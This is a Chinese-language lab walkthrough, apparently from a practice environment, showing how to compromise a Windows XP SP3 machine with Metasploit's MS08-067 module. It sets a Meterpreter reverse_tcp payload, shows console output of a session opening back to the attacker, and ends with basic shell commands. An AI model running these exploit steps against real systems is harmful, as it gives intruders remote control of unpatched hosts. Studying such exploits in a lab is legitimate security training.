## Kali 攻擊 Xp

<service postgresql start>先導入攻擊資料庫

<msfconsole>開啟攻擊面板
  
<use windows/smb/ms08_067_netapi>使用的漏洞

<show options>檢查設定

           Name     Current Setting  Required  Description
           ----     ---------------  --------  -----------
           RHOSTS                    yes       The target address range or CIDR identifier
           RPORT    445              yes       The SMB service port (TCP)
           SMBPIPE  BROWSER          yes       The pipe name to use (BROWSER, SRVSVC)

<set RHOSTS 10.0.2.5> 設定要攻擊的ip

<check> 確認檢查是否有導入成功

<set payload windows/meterpreter/reverse_tcp>

<show options> 重新再次檢查
  
               Module options (exploit/windows/smb/ms08_067_netapi):

                 Name     Current Setting  Required  Description
                 ----     ---------------  --------  -----------
                 RHOSTS   10.0.2.5         yes       The target address range or CIDR identifier
                 RPORT    445              yes       The SMB service port (TCP)
                 SMBPIPE  BROWSER          yes       The pipe name to use (BROWSER, SRVSVC)


              Payload options (windows/meterpreter/reverse_tcp):

                 Name      Current Setting  Required  Description
                 ----      ---------------  --------  -----------
                 EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
                 LHOST                      yes       The listen address (an interface may be specified)
                 LPORT     4444             yes       The listen port



              Exploit target:

                 Id  Name
                 --  ----
                 0   Automatic Targeting

<set LHOST attact ip> 設定攻擊者ip
  
<exploit> 啟動攻擊


                [*] Started reverse TCP handler on 10.0.2.4:4444 
                [*] 10.0.2.5:445 - Automatically detecting the target...
                [*] 10.0.2.5:445 - Fingerprint: Windows XP - Service Pack 3 - lang:Chinese - Traditional / Taiwan
                [*] 10.0.2.5:445 - Selected Target: Windows XP SP3 Chinese - Traditional / Taiwan (NX)
                [*] 10.0.2.5:445 - Attempting to trigger the vulnerability...
                [*] Sending stage (179779 bytes) to 10.0.2.5
                [*] Meterpreter session 1 opened (10.0.2.4:4444 -> 10.0.2.5:1045) at 2020-10-19 11:01:38 -0400
                
## 此時以攻擊成功可控制XP                
                
<pwd>Linux指令檢查正在的目錄
                
                meterpreter > pwd
                C:\WINDOWS\system32
                
<cd /> 前往根目錄

<mkdir 檔名>創建資料夾

